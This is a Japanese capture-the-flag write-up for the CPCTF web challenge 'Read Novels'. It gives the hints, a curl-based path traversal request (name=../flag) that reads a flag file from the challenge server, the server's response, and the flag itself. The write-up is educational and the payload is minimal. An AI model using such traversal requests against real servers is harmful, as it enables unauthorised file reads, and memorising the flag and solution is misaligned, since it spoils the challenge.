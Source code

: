 # Read Novels:Web:6.07pts
小説が読めるサイトを見つけたぞ！  
これ小説以外も見れるじゃん...  
サイト：[https://read-novels.web.cpctf.space](https://read-novels.web.cpctf.space/)  
配布ファイル：[https://files.cpctf.space/read-novels.zip](read-novels.zip)  

**Hint1**  
`app.py`をよく読んでみましょう。`filepath`に小説以外のファイルを入れるにはどうしたらよいでしょうか？  
**Hint2**  
パストラバーサル攻撃を行うことで、本来想定されていないファイルパスを開くことが出来るようになります。  
**Hint3 (解法)**  
`filepath`を`./novel/../flag`にするために、[https://read-novels.web.cpctf.space/novel?name=../flag](https://read-novels.web.cpctf.space/novel?name=../flag) に GET リクエストを飛ばしてみましょう。  

# Solution
URLとソースが渡される。  
アクセスすると、小説が読めるようだ。  
![site.png](site/site.png)  
リンクのURLクエリ`name`に小説名が指定されており、パストラバーサルが怪しい。  
```bash
$ curl 'https://read-novels.web.cpctf.space/novel?name=sanshiro'
<!DOCTYPE html>
<html>
  <head>
    <title>sanshiro</title>
    <style></style>
  </head>
  <body style="white-space: pre-wrap">
    <h1>sanshiro</h1>
    三四郎
夏目漱石
~~~
```
一つ上にたどってみる。  
```bash
$ curl 'https://read-novels.web.cpctf.space/novel?name=../flag'
<!DOCTYPE html>
<html>
  <head>
    <title>../flag</title>
    <style></style>
  </head>
  <body style="white-space: pre-wrap">
    <h1>../flag</h1>
    CPCTF{P4th_tr4v3rs41_15_v3ry_d4ng3r0u5}
  </body>
</html>
```
flagが得られた(実は開催前にドメインが見えておりflagが取得できていた)。  

## CPCTF{P4th_tr4v3rs41_15_v3ry_d4ng3r0u5}